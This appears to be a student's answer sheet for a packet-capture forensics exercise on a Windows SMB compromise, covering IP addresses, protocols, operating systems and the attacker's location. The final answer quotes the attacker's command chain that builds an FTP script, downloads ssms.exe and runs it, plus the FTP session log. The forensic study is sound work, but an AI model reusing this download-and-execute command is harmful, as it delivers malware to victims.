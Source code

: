 ## Exercise 2

Which IP addresses are involved?
  - **98.114.205.102, 192.150.11.111**

What is the duration of the packet capture?
  - **16.2192 seconds**

Which application-layer protocols are detected by Wireshark?
  - **SMB (Server Message Block Protocol)**
  - **NetBIOS, Distributed Computing Environemnt, (DCE/RPC), Active Directory Setup**

How many TCP sessions are in the file?
  - **5**

Identify the attacker’s IP address and location (use a free online tool such as ip2location.com).
  - **United States, Pennsylvania	Philadelphia, lat: 39.9523, lng: -75.1638**


Check the conversation content in TCP stream #3. Which application-level protocol is used?
  - **SQL Server Management Studio**

Identify the attacker’s and the victim’s native operating system and version (Hint: check packets 16 and 17)
  - **Windows 5.1 (Victim) and Windows 2000 2195 (Attacker)**

Identify the script used by the attacker after compromising the system. (Hint: TCP stream 2)
  - **Script used:**
    ```
    echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
    ssms.exe
    ```

    ```
    220 NzmxFtpd 0wns j0
      USER 1

    331 Password required
      PASS 1

    230 User logged in.
      SYST

    215 NzmxFtpd
      TYPE I

    200 Type set to I.
      PORT 192,150,11,111,4,56

    200 PORT command successful.
      RETR ssms.exe

    150 Opening BINARY mode data connection
      QUIT

    226 Transfer complete.
    221 Goodbye happy r00ting
    ```
